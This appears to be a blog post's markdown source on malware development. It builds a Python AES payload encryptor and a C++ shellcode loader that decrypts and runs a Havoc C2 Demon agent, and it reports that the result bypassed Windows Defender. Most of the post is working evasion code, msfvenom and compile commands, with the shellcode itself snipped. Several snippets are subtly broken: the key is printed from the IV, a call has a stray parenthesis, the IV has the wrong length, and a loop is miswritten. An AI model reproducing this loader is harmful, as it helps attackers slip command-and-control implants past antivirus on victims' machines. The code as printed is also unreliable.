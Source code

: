 ```yaml
---
layout: post
title: Creating a payload encryption tool and testing it on the Havoc agent
date: 2023-12-2
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```


Payload encryption is a must against modern security solutions, as popular code such as meterpreter is sure to get caught by signature-based detection or static file analysis. Although encryption won't get us past heuristic analysis or ML behavioral analysis, it's a step forward toward being stealthy. While this is great, the drawback to payload encryption is that it increases file entropy. Entropy is a measure of randomness within a dataset, and files with an entropy that passes a certain threshold have a good chance of being marked as malicious. There are techniques to decrease entropy, which I will discuss in a later post. 

In this post, I will create a tool that implements a popular encryption algorithm for malware development. The tool will output the encrypted payload and generate a random key and initialization vector. Afterward, I will test out an encrypted payload against Defender. 

Let's create an argument parser using the `argparse` library

```python
# Create the argument parser
parser = argparse.ArgumentParser(
                        prog='PayloadEncryptor',
                        description='Encrypts payloads...duh.',
                        epilog='Check out my blog!')

# Adding arguments to the parser
parser.add_argument('-i', dest = 'initialpayload', help = 'the name of the file that contains your payload', type=argparse.FileType('rb'))
parser.add_argument('-o', dest = 'encryptedpayload', help = 'the file where to write the encrypted payload')

# Run the parser and place the extracted data into an args.<argumentname> object
args = parser.parse_args()
# Read the payload from a file and store it in a variable
with args.initialpayload as f:
   payload = f.read()
```

Then I will create a function that takes the payload, encrypts it, and writes the output to the file the user specified. For this, I will be using the `PyCryptodome` library, as it makes my life easier.

```python
def EncryptAES(input, output):
	# Generate a random key and print it
    key = get_random_bytes(16)
    print(key)
	# Define the cipher as AES-EAX
    cipher = AES.new(key, AES.MODE_EAX)
	# Generate a nonce
    nonce = cipher.nonce
	# Encrypt the input
    ciphertext, tag = cipher.encrypt_and_digest(input)
	# Open or create a file with the name we specified, and write the encrypted payload
    file_out = open(f"{output}", "wb")
    [ file_out.write(x) for x in (cipher.nonce, tag, ciphertext) ]
```

Now let's put it to the test! But first, we will need a payload. 

```shell
msfvenom -p windows/x64/messagebox TEXT="Task failed succesfully" TITLE="Error!" -f raw > payload.bin
```

Let's take a look at it 

![Message box payload](/assets/image3.png)

Now if we run our code, it should look different

```python
python3 Encrypt.py -i payload.bin -o encryptedpayload.bin
```

![Encrypted message box payload](/assets/image4.PNG)

Perfect! So we know that it works, but our payload isn't that interesting. Let's use the Havoc C2 framework to create a payload for the Demon agent (don't forget to start a listener first). This command should create a .bin file.

![Generating the demon agent](/assets/image5.png)

We run our encryption script again, and we have our final payload. But now we need a loader. Let's try this going off this [template](https://github.com/TheD1rkMtr/Shellcode-Hide/blob/main/1%20-%20Simple%20Loader/SimpleLoader/SimpleLoader.cpp). After tweaking the code a bit, this is the final product:

```cpp
#include <windows.h>
#include <stdio.h>

int main() {

unsigned char payload[] = { 
    <SNIP>
};
  
	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

We will also need to decrypt our payload. For this I will use the [tiny-aes-c](https://github.com/kokke/tiny-AES-c) library.

```cpp
    #include <aes.c>

    <SNIP>

    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));
```

Here is when I ran into a problem. The python script I created encrpted the payload using AES-EAX, and tiny-aes-c uses AES_CBC. Let's adapt our script

```python
def EncryptAES(input, output):
    # Generate a key
    key = get_random_bytes(16)
    # Defining a cipher
    cipher = AES.new(key, AES.MODE_CBC)
    # Encrypting the payload, also adding some padding in case it's size is not a multiple of 16 bytes
    ct_bytes = cipher.encrypt(pad(input, AES.block_size))
    # Print the IV
    print("unsigned char iv[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Print the Key
    print("unsigned char key[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Write into the specified file
    file_out = open(f"{output}", "wb")
    [ file_out.write(ct_bytes) ]
```

And after using THIS script to encrypt our payload, this is the final product

```cpp
unsigned char key[] = {
  0x7b, 0x61, 0x4f, 0xef, 0xbf, 0xbd, 0x78, 0x42, 0xef, 0xbf, 0xbd, 0x5b,
  0x31, 0x6d, 0x25, 0x0a
};

unsigned char iv[] = {
  0xef, 0xbf, 0xbd, 0x45, 0xc9, 0xbd, 0x34, 0xef, 0xbf, 0xbd, 0x54, 0x6a,
  0xef, 0xbf, 0xbd, 0x55, 0xef, 0xbf, 0xbd, 0x5b, 0x31, 0x6d, 0x0a
};

int main() {

unsigned char payload[] = {
  <SNIP>
};
    // Allocate read-write memory the size of our payload
  	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload)), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}

	// Decrypt payload
  AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));

  // Copy decrypted payload into memory
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}
  // Cast a function pointer to our payload.
  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

Now that we have our code, let's compile it!

```shell
x86_64-w64-mingw32-gcc -I /Path/to/tiny-AES-c-1.0.0 -o Demon.exe Loader.cpp
```

After transferring it to the Windows machine, I ran it and...the agent crashed. Great. After debugging it a bit, I have come to the conclusion that I also need to use tiny-aes-c for encryption. 

```cpp
unsigned char payload[] {
<SNIP>
};

unsigned char key[] {
};

unsigned char iv[] {
};

AES_ctx ctx = {0};
AES_init_ctx_iv(&ctx, key, iv);
AES_CBC_encrypt_buffer(&ctx, payload, sizeof(payload));

for(int i=0,i<sizeof(payload),i++) {
  print("0x%x, ", payload[i]);
}
```

Piping the output of this into a file, and then copying it to our loader. It should work. Compiling it again and running it on our Windows host...

![Defender got pwned](/assets/image7.png)

